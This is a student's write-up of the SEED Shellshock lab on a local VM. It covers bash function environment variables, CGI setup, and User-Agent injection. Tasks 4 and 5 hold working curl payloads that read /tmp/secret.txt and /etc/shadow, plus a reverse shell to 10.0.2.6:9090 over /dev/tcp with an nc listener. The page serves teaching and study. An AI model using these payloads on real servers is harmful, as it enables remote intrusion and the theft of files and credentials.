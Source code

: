 ```yaml
---
title: Shellshock
date: 2020-02-25 11:34:56
tags: [Security]
categories: [Security]
toc: true
comments: true
---
```

<!-- more -->
![](images/Shellshock/Platform-SEEDUbuntu16__04--32bit-green.svg)  ![](images/Shellshock/SEED-SoftwareSecurityLab-brightgreen.svg)

> This is report of SEED Lab report.

Table of Contents
=================

* [Task 1: Experimenting with Bash Function](#task-1-experimenting-with-bash-function)
* [Task 2: Setting up CGI programs](#task-2-setting-up-cgi-programs)
* [Task 3: Passing Data to Bash via Environment Variable](#task-3-passing-data-to-bash-via-environment-variable)
* [Task 4: Launching the Shellshock Attack](#task-4-launching-the-shellshock-attack)
* [Task 5: Getting a Reverse Shell via Shellshock Attack](#task-5-getting-a-reverse-shell-via-shellshock-attack)
* [Task 6: Using the Patched Bash](#task-6-using-the-patched-bash)


## Task 1: Experimenting with Bash Function

For this task, we need to run  a prepared shell (ubuntu16 has fixed this bug):

```shell
$ /bin/bash_shellshock
```

## Task 2: Setting up CGI programs

In this lab, we will launch a Shellshock attack on a remote web server. Many web servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web applications. Many CGI programs are written using shell scripts. Therefore, before a CGI program is executed, a shell program will  be invoked first, and such an invocation is triggered by a user from a remote computer. If the shell program is a vulnerable Bash program, we can exploit the Shellshock vulnerable to gain privileges on the server.

create `myproc.cgi`:

```shell
$ touch myprog.cgi
```

fill it with:

```shell
#!/bin/bash_shellshock 
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

move it to `/usr/lib/cgi-bin` and set its permission to 755:

```shell
$ sudo chmod 755 myproc.cgi
```

## Task 3: Passing Data to Bash via Environment Variable

we can use `curl -A "info" url` to passing data to bash.

```shell
[02/25/20]seed@VM:.../cgi-bin$  curl -A "hello" http://localhost/cgi-bin/show.cgi
****** Environment Variables ******
HTTP_HOST=localhost
HTTP_USER_AGENT=hello
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.18 (Ubuntu) Server at localhost Port 80</address>
SERVER_SOFTWARE=Apache/2.4.18 (Ubuntu)
SERVER_NAME=localhost
SERVER_ADDR=127.0.0.1
SERVER_PORT=80
REMOTE_ADDR=127.0.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/show.cgi
REMOTE_PORT=34124
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/show.cgi
SCRIPT_NAME=/cgi-bin/show.cgi
[02/25/20]seed@VM:.../cgi-bin$ 
```

Then we can find that data “hello” has been sent to `HTTP_USER_AGENT`

## Task 4: Launching the Shellshock Attack

Our target is to leak the info in `/tmp/secret.txt`，which has been created manually before.

If we want to look up some info in a file locally, usually we will use “cat xxx” command.

So our solution is trying to send such command to server and let the server shell execute that command.

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat
/tmp/secret.txt" http://localhost/cgi-bin/show.cgi
```

Here i have tried so many times but i don’t know why it cannot succeed. 

• Using the Shellshock attack to steal the content of a secret file from the server.

• Answer the following question: will you be able to steal the content of the shadow file `/etc/shadow`? Why or why not?

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/show.cgi
```

we cannot steal the content of the shadow file. Because Apache is running with a www-data account, and its cannot access `etc\shadow` of descriptor 620 . So our attack would fail.

## Task 5: Getting a Reverse Shell via Shellshock Attack

First, we need listen on the port 9090 (like the lab we have done before.)

```shell
$ nc -l 9090 -v
```

And then we need construct a malicious code:

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i >
/dev/tcp/10.0.2.6/9090 0<&1 2>&1" http://localhost/cgi-bin/show.cgi
```

## Task 6: Using the Patched Bash



```shell
#!/bin/bash
echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```

Then we try to steal the contents.

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat
/tmp/secret.txt" http://localhost/cgi-bin/task6.cgi
```

We will failed in a new bash.